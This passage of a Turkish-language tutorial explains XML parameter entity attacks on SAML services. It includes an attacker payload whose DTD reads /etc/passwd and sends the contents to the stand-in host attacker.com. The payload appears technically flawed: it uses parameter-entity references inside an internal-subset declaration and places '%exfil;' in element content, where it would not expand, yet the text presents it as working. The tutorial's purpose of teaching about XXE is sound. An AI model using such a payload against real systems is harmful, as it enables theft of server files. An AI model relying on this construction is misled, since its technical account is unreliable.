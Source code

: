 Bu örnekte, saldırgan Dış Varlık Saldırısı kullanarak hedef SAML servisinin kontrolündeki sunucudan istenilen dosyayı çekebilmektedir.

**Parameter Entity Attack (Parametre Varlık Saldırısı)**: Saldırganın <!ENTITY> bildirimlerini parametre varlıkları olarak kullanarak hassas bilgilere erişebildiği veya sistem kaynaklarını etkileyebildiği bir saldırı yöntemidir. Bu saldırı tipinde, saldırgan XML belgesinde parametre varlıklarını manipüle ederek istenmeyen sonuçlara yol açar.

Örneğin, bir SAML servisi hedef alındığını düşünelim. Saldırgan, SAML isteğinde parametre varlıklarını manipüle ederek bir Parameter Entity Attack gerçekleştirmek istiyor. Hedef SAML belgesi şu şekilde görünüyor:

```
<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
                    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
                    ID="1234"
                    Version="2.0"
                    IssueInstant="2023-07-01T10:00:00Z">
    <saml:Issuer>https://sp.example.com</saml:Issuer>
    <samlp:NameIDPolicy AllowCreate="true" />
    <samlp:RequestedAuthnContext Comparison="exact">
        <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
    </samlp:RequestedAuthnContext>
</samlp:AuthnRequest>

```
Saldırgan, hedef SAML belgesindeki parametre varlıklarını manipüle ederek hassas bilgilere erişmek istiyor. Bunun için aşağıdaki gibi bir XML içeriği oluşturuyor:

```
<!DOCTYPE root [
<!ENTITY % parameterEntity SYSTEM "file:///etc/passwd">
<!ENTITY % payload "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%parameterEntity;'>">
%payload;
]>
<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
                    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
                    ID="1234"
                    Version="2.0"
                    IssueInstant="2023-07-01T10:00:00Z">
    <saml:Issuer>https://sp.example.com</saml:Issuer>
    <samlp:NameIDPolicy AllowCreate="true" />
    <samlp:RequestedAuthnContext Comparison="exact">
        <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
    </samlp:RequestedAuthnContext>
    %exfil;
</samlp:AuthnRequest>

```
Bu XML içeriğinde, saldırgan bir parameterEntity tanımlaması yaparak "/etc/passwd" dosyasına işaret ediyor. Ardından, payload adında bir dış varlık tanımlaması yapıyor. Bu tanımlama, exfil adında bir dış varlık oluşturarak içeriğini "http://attacker.com/?data=%parameterEntity;" adresine yönlendiriyor.
